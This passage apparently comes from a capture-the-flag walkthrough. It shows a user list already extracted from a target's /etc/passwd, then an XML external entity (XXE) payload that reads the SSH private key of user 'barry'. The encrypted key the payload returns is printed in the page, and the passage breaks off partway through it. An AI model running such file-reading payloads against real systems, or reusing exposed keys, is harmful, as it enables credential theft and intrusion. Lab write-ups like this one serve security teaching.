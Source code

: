 ```html
news:x:9:9:news:/var/spool/news:/usr/sbin/nologin
uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin
proxy:x:13:13:proxy:/bin:/usr/sbin/nologin
www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin
backup:x:34:34:backup:/var/backups:/usr/sbin/nologin
list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin
irc:x:39:39:ircd:/var/run/ircd:/usr/sbin/nologin
gnats:x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/usr/sbin/nologin
nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin
systemd-timesync:x:100:102:systemd Time Synchronization,,,:/run/systemd:/bin/false
systemd-network:x:101:103:systemd Network Management,,,:/run/systemd/netif:/bin/false
systemd-resolve:x:102:104:systemd Resolver,,,:/run/systemd/resolve:/bin/false
systemd-bus-proxy:x:103:105:systemd Bus Proxy,,,:/run/systemd:/bin/false
syslog:x:104:108::/home/syslog:/bin/false
_apt:x:105:65534::/nonexistent:/bin/false
lxd:x:106:65534::/var/lib/lxd/:/bin/false
messagebus:x:107:111::/var/run/dbus:/bin/false
uuidd:x:108:112::/run/uuidd:/bin/false
dnsmasq:x:109:65534:dnsmasq,,,:/var/lib/misc:/bin/false
sshd:x:110:65534::/var/run/sshd:/usr/sbin/nologin
pollinate:x:111:1::/var/cache/pollinate:/bin/false
joe:x:1002:1002::/home/joe:/bin/bash
barry:x:1003:1003::/home/barry:/bin/bash</p><p>Author : Barry Clad</p><p>Comment :<br> random<p/>    </section>
```
- We know that there is `id_rsa` file for user barry tried readig id_rsa file.
```console
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE foo [
   <!ENTITY xxe SYSTEM  "file:///home/barry/.ssh/id_rsa" >]>
<comment>
  <name>&xxe;</name>
  <author>Barry Clad</author>
  <com>random</com>
</comment>
<!------------------------------------------------>
<h3>Comment Preview:</h3><p>Name: 
-----BEGIN RSA PRIVATE KEY-----
Proc-Type: 4,ENCRYPTED
DEK-Info: AES-128-CBC,D137279D69A43E71BB7FCB87FC61D25E
jqDJP+blUr+xMlASYB9t4gFyMl9VugHQJAylGZE6J/b1nG57eGYOM8wdZvVMGrfN
bNJVZXj6VluZMr9uEX8Y4vC2bt2KCBiFg224B61z4XJoiWQ35G/bXs1ZGxXoNIMU
MZdJ7DH1k226qQMtm4q96MZKEQ5ZFa032SohtfDPsoim/7dNapEOujRmw+ruBE65
l2f9wZCfDaEZvxCSyQFDJjBXm07mqfSJ3d59dwhrG9duruu1/alUUvI/jM8bOS2D
Wfyf3nkYXWyD4SPCSTKcy4U9YW26LG7KMFLcWcG0D3l6l1DwyeUBZmc8UAuQFH7E
NsNswVykkr3gswl2BMTqGz1bw/1gOdCj3Byc1LJ6mRWXfD3HSmWcc/8bHfdvVSgQ
ul7A8ROlzvri7/WHlcIA1SfcrFaUj8vfXi53fip9gBbLf6syOo0zDJ4Vvw3ycOie
TH6b6mGFexRiSaE/u3r54vZzL0KHgXtapzb4gDl/yQJo3wqD1FfY7AC12eUc9NdC
rcvG8XcDg+oBQokDnGVSnGmmvmPxIsVTT3027ykzwei3WVlagMBCOO/ekoYeNWlX
bhl1qTtQ6uC1kHjyTHUKNZVB78eDSankoERLyfcda49k/exHZYTmmKKcdjNQ+KNk
4cpvlG9Qp5Fh7uFCDWohE/qELpRKZ4/k6HiA4FS13D59JlvLCKQ6IwOfIRnstYB8
7+YoMkPWHvKjmS/vMX+elcZcvh47KNdNl4kQx65BSTmrUSK8GgGnqIJu2/G1fBk+
T+gWceS51WrxIJuimmjwuFD3S2XZaVXJSdK7ivD3E8KfWjgMx0zXFu4McnCfAWki
ahYmead6WiWHtM98G/hQ6K6yPDO7GDh7BZuMgpND/LbS+vpBPRzXotClXH6Q99I7
LIuQCN5hCb8ZHFD06A+F2aZNpg0G7FsyTwTnACtZLZ61GdxhNi+3tjOVDGQkPVUs
pkh9gqv5+mdZ6LVEqQ31eW2zdtCUfUu4WSzr+AndHPa2lqt90P+wH2iSd4bMSsxg
laXPXdcVJxmwTs+Kl56fRomKD9YdPtD4Uvyr53Ch7CiiJNsFJg4lY2s7WiAlxx9o
vpJLGMtpzhg8AXJFVAtwaRAFPxn54y1FITXX6tivk62yDRjPsXfzwbMNsvGFgvQK
DZkaeK+bBjXrmuqD4EB9K540RuO6d7kiwKNnTVgTspWlVCebMfLIi76SKtxLVpnF
6aak2iJkMIQ9I0bukDOLXMOAoEamlKJT5g+wZCC5aUI6cZG0Mv0XKbSX2DTmhyUF
ckQU/dcZcx9UXoIFhx7DesqroBTR6fEBlqsn7OPlSFj0lAHHCgIsxPawmlvSm3bs
7bdofhlZBjXYdIlZgBAqdq5jBJU8GtFcGyph9cb3f+C3nkmeDZJGRJwxUYeUS9Of
1dVkfWUhH2x9apWRV8pJM/ByDd0kNWa/c//MrGM0+DKkHoAZKfDl3sC0gdRB7kUQ
```